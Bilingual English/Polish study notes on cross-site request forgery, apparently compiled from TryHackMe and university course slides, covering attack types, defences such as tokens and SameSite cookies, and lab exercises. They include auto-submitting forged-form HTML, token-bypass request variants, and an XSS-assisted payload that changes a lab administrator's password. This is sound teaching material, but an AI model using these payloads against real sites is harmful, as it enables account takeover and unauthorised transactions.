

# CSRF
Cross-Site Request Forgery (CSRF) is a security vulnerability where an attacker tricks a user's browser into performing unauthorized actions on a trusted site where the user is authenticated. This occurs because browsers automatically include credentials (like cookies) with requests, allowing attackers to forge malicious requests.  

- **Attack Process:**  
  1. Attacker knows the structure of a target site's requests.  
  2. Sends a malicious link to the user (via email, social media, etc.).  
  3. User interacts with the link, triggering unwanted actions (e.g., password changes, financial transactions).  

- **Risks and Effects:**  
  - **Unauthorized Actions:** Attackers can control user actions, leading to financial or reputational harm.  
  - **Exploited Trust:** Attacks undermine trust between users and websites.  
  - **Stealth:** CSRF uses standard browser behavior without advanced malware, making attacks hard to detect.  

Cross-Site Request Forgery (CSRF) to rodzaj podatności bezpieczeństwa, który pozwala atakującemu na nakłonienie użytkownika do wykonania działań, których nie zamierzał wykonać, w aplikacji internetowej, w której jest zalogowany.  
Zazwyczaj odbywa się to poprzez wysłanie złośliwego żądania z innej strony, które docelowa strona mylnie traktuje jako prawidłowe żądanie od zalogowanego użytkownika.   
W rezultacie atakujący może wykonać takie czynności, jak zmiana ustawień konta, dokonywanie zakupów czy transfer funduszy, bez wiedzy użytkownika.  
Aby zapobiec CSRF, deweloperzy często stosują techniki takie jak dodawanie unikalnych tokenów do żądań lub weryfikowanie pochodzenia żądań, aby upewnić się, że pochodzą one z zaufanych źródeł. Takie środki pomagają zapewnić, że tylko prawidłowe działania są wykonywane przez użytkownika waplikacji internetowej.  

Aby zapytanie było podatne, spełnione muszą zostać konkretne warunki:  

1. Zapytanie nie może posiadać żadnych losowych parametrów. Wszystkie wartości muszą być deterministyczne.  
```
POST /transfer_funds HTTP/1.1
Host: vulnerable.com
Cookie: session=jgmeiu985ndaslkfj
amount=100000&target=attacker123
```

2. Sesja musi opierać się na plikach cookies. Podczas ataku, sam użytkownik musi być zalogowany na podatnej stronie, tzn. mieć w pamięci przeglądarki ważny plik cookie.  
Samo zapytanie powinno wykonywać jakąś akcję lub czynność:  
```
POST /transfer_funds HTTP/1.1
Host: vulnerable.com
Cookie: session=jgmeiu985ndaslkfj
amount=100000&target=attacker123
```

Mając podatne w ten sposób zapytanie, atakujący może przygotować stronę internetową, która automatycznie wykona zapytanie w imieniu ofiary – w dodatku bez jej wiedzy.  
```
<html>
    <body>
        <form action="https://vulnerable.com/transfer_funds" method="POST">
            <input type="hidden" name="amount" value="100000" />
            <input type="hidden" name="target" value="attacker123" />
        </form>
        <script>
            document.forms[0].submit();
         </script>
    </body>
</html>
```
___
## Types of CSRF attacks
### **1. Traditional CSRF:**  
- **Focus:** Exploits state-changing actions via form submissions.  
- **Process:**  
  1. Victim is logged into a trusted site (e.g., a bank).  
  2. Attacker sends a malicious link.  
  3. Victim clicks the link, triggering unauthorized actions like money transfers or account changes.  
- **Mechanism:** Relies on the browser automatically including authentication details (cookies, URL parameters).



### **2. XMLHttpRequest CSRF (Asynchronous CSRF):**  
- **Focus:** Exploits asynchronous web technologies (e.g., XMLHttpRequest, Fetch API).  
- **Process:**  
  1. Victim is logged into a dynamic web app.  
  2. Attacker lures the victim to visit a malicious page containing a script.  
  3. The script sends an AJAX request to the victim’s authenticated session (e.g., modifying email settings).  
- **Mechanism:** Bypasses full-page reloads while exploiting trust in authenticated sessions.  

### **3. Flash-Based CSRF:**  
- **Focus:** Uses vulnerabilities in Adobe Flash to perform CSRF attacks.  
- **Process:**  
  - A malicious Flash file (.swf) hosted by the attacker sends unauthorized requests to a target site.  
- **Relevance:**  
  - Flash is now obsolete (support ended in 2020), but legacy systems relying on Flash remain vulnerable.  

### **Commonality Across Types:**  
- All exploit trust between the user and the site by sending unauthorized requests that leverage the user’s authenticated session.  
- Mitigation requires robust CSRF defenses like tokens, SameSite cookies, and content security policies.
___
## Basic CSRF - Hidden Link/Image Exploitation
This CSRF technique uses hidden links or 0x0 pixel images to trick users into performing unintended actions. When a user, visits a malicious page while logged into a trusted site (e.g., a bank), their browser automatically sends credentials (e.g., cookies), enabling unauthorized actions like transferring funds.
Typically, the `src` or `href` element of the image is set to a destination URL intended to act on the user's behalf without the user's awareness. It takes benefit of the fact that the user's browser transfers credentials like cookies automatically.  
```
<!-- Website --> 
<a href="https://mybank.thm/transfer.php" target="_blank">Click Here</a>  
<!-- User visits attacker's website while authenticated -->
```

### **How It Works:**  
1. **Setup:**  
   - Victim is logged into his bank (mybank.thm) and mailbox simultaneously.  
   - An attacker identifies the bank lacks CSRF protection during transactions.  

2. **Attack:**  
   - The attacker crafts an email with a malicious link (e.g., `http://mybank.thm:8080/dashboard.php?to_account=GB82MYBANK5698&amount=1000`).  
   - The email lures the victim into clicking the link, which triggers a hidden transfer of funds using his authenticated session.

3. **Issue:**  
   - The bank application fails to verify if requests are legitimate, as it lacks mechanisms like CSRF tokens.

### **Securing the Breach:**  
1. **Server-Side Validation:**  
   - Add a **CSRF token** to every request.  
   - Validate the token on the server to ensure requests come from legitimate users.  

2. **Updated Implementation:**  
   - The client-side form includes a hidden field with a unique CSRF token (`csrf_token`).  
   - The server checks for this token and rejects unauthorized requests.  

#TODO SKONCZYC OPIS z tryhackme
___
## Metody obrony przed CSRF
**1. Tokeny CSRF:**  
Najskuteczniejszym sposobem obrony jest stosowanie unikalnych tokenów CSRF.  
Tokeny te są generowane przez serwer i dołączane do formularzy oraz żądań. Każde żądanie, które zmienia stan na serwerze, musi zawierać ważny token, który jest weryfikowany przez serwer.  
W przypadku braku lub nieprawidłowego tokenu, żądanie jest odrzucane.  

**2. SameSite Cookies:**  
Używanie atrybutu `SameSite` dla ciasteczek (cookies)to kolejna ważna technika.  
Atrybut ten może być ustawiony na Strict lub Lax, co ogranicza, w jakich kontekstach ciasteczka są przesyłane.  
Ustawienie `SameSite=Strict` zapewnia, że ciasteczka nie są wysyłane w kontekście żądań z zewnętrznych witryn, co utrudnia atakującym wykorzystanie ciasteczek do ataków CSRF.  

**3. Weryfikacja Referer i Origin:**  
Można również stosować weryfikację nagłówków Referer i Origin.  
Te nagłówki mogą pomóc potwierdzić, że żądanie pochodzi z zaufanego źródła.  
Choć metoda ta nie jest tak bezpieczna jak tokeny CSRF, może stanowić dodatkową warstwę ochrony.  
Uwaga! Oszukanie tego mechanizmu jest dość proste, więc stosowanie go jako jedynej ochrony nie jest zalecane!  

**4. Ograniczenie metod HTTP:**   
Inna praktyka to ograniczenie metod HTTP do tych, które są naprawdę potrzebne.  
Na przykład, metody takie jak GET powinny być używane tylko do pobierania danych, a zmiany stanu (np. aktualizacje, usunięcia) powinny być realizowane przez metody POST, PUT, lub DELETE.  

**5. Regularne aktualizacje i testowanie:**   
Ważne jest, aby regularnie aktualizować oprogramowanie i przeprowadzać testy bezpieczeństwa.  
Często pojawiają się nowe techniki ataków oraz poprawki zabezpieczeń, które mogą pomóc w utrzymaniu aplikacji w bezpiecznym stanie.  
___
## Techniki omijania tokenów CSRF
Walidacja odbywa się tylko jeśli parametr z tokenem jest obecny. Możemy jednak całkowicie usunąć token. Czasami to zadziała:  
```
POST /transfer_funds HTTP/1.1
Host: vulnerable.com
Cookie: 
session=jgmeiu985ndaslkfj
amount=100000&target=attacker123
```

Token jest niepowiązany z sesją użytkownika. W takim przypadku możemy uzyskać token używając własnej sesji i przekazać go do formularza dla ofiary.  
Walidacja jest zależna od rodzaju zapytania. Czasami zmiana zapytania z POST na GETpozwala całkowicie ominąć token CSRF:  
```
GET 
/transfer_funds?amount=100000&tar
get=attacker123 HTTP/1.1
Host: vulnerable.com
Cookie: session=jgmeiu985ndaslkfj
```

Walidacja tokenów może być przeprowadzona na wiele innych sposobów, w zależności od implementacji po stronie serwera.  
Warto zatem przyjrzeć się, jak są one generowane podczas kolejnych zapytań, szukając anomalii, które pozwalają na ominięcie środków bezpieczeństwa.  
___
## Ćwiczenia studia
### GET CSRF
Celem zadania jest przygotowanie odpowiedniego payloadu na podstronie http://192.168.100.12/payload/, który zasymuluje kliknięcie przycisku przez  
administratora na stronie http://192.168.100.12/site1/.  
Przykład:  
`<script>location.href="/site1/?solve";</script>`  

### POST CSRF
Celem zadania jest przygotowanie odpowiedniego payloadu na podstronie http://192.168.100.12/payload/, który zasymuluje kliknięcie przycisku przez administratora na stronie http://192.168.100.12/site2/.  
Przykład:  
`<form method="post" action="/site2/" id="f"><input type="hidden” name="solve"></form><script>document.getElementById('f').submit();</script>`  

### CSRF TOKEN
Celem zadania jest przygotowanie odpowiedniego payloadu na podstronie http://192.168.100.12/payload/, który za symuluje kliknięcie przycisku przez administratora na stronie http://192.168.100.12/site3/.  
Strona zabezpieczona jest tokenem CSRF, który należy odczytać za pomocą podatności XSS.  
Przykład:  
```
<form method="post" action="/site3/"><input type="hidden" name="solve"><input type="hidden"name="token"
 id="t"></form><script>document.forms[1].t.value=document.forms[0].token.value;document.forms[1].submit()</script>
```
Oneliner:  
`<form method="post" action="/site3/"><input type="hidden" name="solve"><input type="hidden"name="token" id="t"></form><script>document.forms[1].t.value=document.forms[0].token.value;document.forms[1].submit()</script>`  

## Ćwiczenia studia Pentest
### Zwykły użytkownik
Głównym celem zadania jest zalogowanie się na konto Administratora.  
Napoczątku jednak musimy zalogować się na konto zwykłego użytkownika:  
URL: http://192.168.100.62/  
Nazwa: student  
Hasło: pjatk  

Zwróć uwagę na token CSRF w formularzu! Jest on przypisany do sesji i uniemożliwia najgroźniejsze scenariusze CSRF.  

## XSS
Celem zadania jest znalezienie podatności XSS na podstronie:  
http://192.168.100.62/activity/  

Przykład użycie nieprawidłowego tokenu jest logowane:  
`http://192.168.100.62/activity/?clear=&token=<b>XS`

## CSRF
Celem zadania jest wykorzystanie podatności CSRF (za pośrednictwem XSS) do zmiany hasła Administratora.  
Podatność XSS umożliwia odczytanie tokenu CSRF na stronie i ominięcie zabezpieczenia!  
Atak należy opóźnić o około sekundę (funkcja setTimeout), aby strona – łącznie z tokenem CSRF– wczytała się do końca!  
Przykład:  
```
<form method="post" action="/profile/"><input type="hidden" name="password1" value="pjatk"><input 
type="hidden" name="password2" value="pjatk"><input type="hidden" name="token" 
id="t"></form><script>setTimeout('document.forms[0].t.value=document.forms[1].token.value;document.forms[0].submit()', 1000)</script>
```
Oneliner:  
`<form method="post" action="/profile/"><input type="hidden" name="password1" value="pjatk"><input type="hidden" name="password2" value="pjatk"><input type="hidden" name="token" id="t"></form><script>setTimeout('document.forms[0].t.value=document.forms[1].token.value;document.forms[0].submit()', 1000)</script>`

## Administrator
Celem zadania jest zalogowanie się na konto Administratora za pomocą podmienionego hasła.  
___
## Dodatkowe informacje
[Metody zapobiegania atakom CSRF](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)  
[CSRF„Cheat-sheet”](https://book.hacktricks.wiki/en/pentesting-web/csrf-cross-site-request-forgery.html)  
___
## Sources
- tryhackme, CSRF, https://tryhackme.com/r/room/csrfV2.
- Cross-site RequestForgery, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
- Cross-site RequestForgery Pentest, Polsko-Japońska Akademia Technik Komputerowych, 2024. Prezentacja pdf.
